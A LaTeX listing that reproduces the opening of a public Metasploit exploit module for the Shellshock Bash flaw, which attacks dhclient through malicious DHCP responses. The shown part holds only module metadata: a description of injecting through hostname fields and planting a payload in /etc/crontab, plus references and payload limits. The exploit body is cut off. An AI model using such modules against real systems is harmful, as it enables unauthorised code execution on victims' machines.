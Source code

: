 \begin{lstlisting}[caption=modules/exploits/unix/dhcp/bash\_environment.rb]
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'
require 'rex/proto/dhcp'

class Metasploit3 < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::DHCPServer

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Dhclient Bash Environment Variable Injection (Shellshock)',
      'Description'    => %q|
        This module exploits the Shellshock vulnerability, a flaw in how the Bash shell
        handles external environment variables. This module targets dhclient by responding
        to DHCP requests with a malicious hostname, domainname, and URL which are then
        passed to the configuration scripts as environment variables, resulting in code
        execution. Due to length restrictions and the unusual networking scenario at the
        time of exploitation, this module achieves code execution by writing the payload
        into /etc/crontab and then cleaning it up after a session is created.
      |,
      'Author'         =>
        [
          'Stephane Chazelas', # Vulnerability discovery
          'egypt' # Metasploit module
        ],
      'License'        => MSF_LICENSE,
      'Platform'       => ['unix'],
      'Arch'           => ARCH_CMD,
      'References'     =>
        [
          ['CVE', '2014-6271'],
          ['CWE', '94'],
          ['OSVDB', '112004'],
          ['EDB', '34765'],
          ['URL', 'https://securityblog.redhat.com/2014/09/24/bash-specially-crafted-environment-variables-code-injection-attack/'],
          ['URL', 'http://seclists.org/oss-sec/2014/q3/649'],
          ['URL', 'https://www.trustedsec.com/september-2014/shellshock-dhcp-rce-proof-concept/']
        ],
      'Payload'        =>
        {
          # 255 for a domain name, minus some room for encoding
          'Space'       => 200,
          'DisableNops' => true,
          'Compat'      =>
            {
              'PayloadType' => 'cmd',
              'RequiredCmd' => 'generic telnet ruby',
            }
        },
      'Targets'        => [ [ 'Automatic Target', { }] ],
      'DefaultTarget'  => 0,
      'DisclosureDate' => 'Sep 24 2014'
    ))

    deregister_options('DOMAINNAME', 'HOSTNAME', 'URL')
  end


\end{lstlisting}
